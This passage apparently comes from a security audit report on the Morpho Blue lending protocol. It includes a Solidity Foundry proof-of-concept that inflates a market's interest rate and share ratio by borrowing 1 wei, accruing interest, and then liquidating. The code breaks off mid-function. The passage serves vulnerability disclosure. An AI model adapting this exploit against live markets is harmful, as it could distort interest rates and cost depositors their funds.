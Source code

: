 The following PoC demonstrates how the market's interest rate can be inflated, as described above. Note that this PoC has to be placed in the `morpho-blue-irm` repository.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "lib/forge-std/src/Test.sol";
import "src/AdaptiveCurveIrm.sol";
import {BaseTest} from "lib/morpho-blue/test/forge/BaseTest.sol";

contract CreamyInflationAttack is BaseTest {
    using MarketParamsLib for MarketParams;

    int256 constant CURVE_STEEPNESS = 4 ether;
    int256 constant ADJUSTMENT_SPEED = int256(20 ether) / 365 days;
    int256 constant TARGET_UTILIZATION = 0.9 ether; // 90%
    int256 constant INITIAL_RATE_AT_TARGET = int256(0.1 ether) / 365 days; // 10% APR

    function setUp() public override {
        super.setUp();

        // Deploy and enable AdaptiveCurveIrm
        AdaptiveCurveIrm irm = new AdaptiveCurveIrm(
            address(morpho), CURVE_STEEPNESS ,ADJUSTMENT_SPEED,TARGET_UTILIZATION, INITIAL_RATE_AT_TARGET
        );
        vm.prank(OWNER);
        morpho.enableIrm(address(irm));
        
        // Deploy market with AdaptiveCurveIrm
        marketParams = MarketParams({
            loanToken: address(loanToken), // Pretend this is USDC
            collateralToken: address(collateralToken), // Pretend this is USDT
            oracle: address(oracle),
            irm: address(irm),
            lltv: DEFAULT_TEST_LLTV
        });
        id = marketParams.id();
        morpho.createMarket(marketParams);
    }

    function testInflateInterestRateWhenLowLiquidity() public {
        // Supply and borrow 1 wei
        _supply(1);
        collateralToken.setBalance(address(this), 2);
        morpho.supplyCollateral(marketParams, 2, address(this), "");
        morpho.borrow(marketParams, 1, 0, address(this), address(this));

        // Accrue interest for 150 days
        for (uint i = 0; i < 150; i++) {
            skip(1 days);
            morpho.accrueInterest(marketParams);
        }

        // Liquidating only divides assets by 2, the other half accrues to virtual shares
        loanToken.setBalance(address(this), 2);
        morpho.liquidate(marketParams, address(this), 2, 0, "");

        // Shares to assets ratio is now insanely high
        console2.log("supplyAssets: %d, supplyShares: %d", morpho.market(id).totalSupplyAssets, morpho.market(id).totalSupplyShares);
        console2.log("borrowAssets: %d, borrowShares: %d", morpho.market(id).totalBorrowAssets, morpho.market(id).totalBorrowShares);
```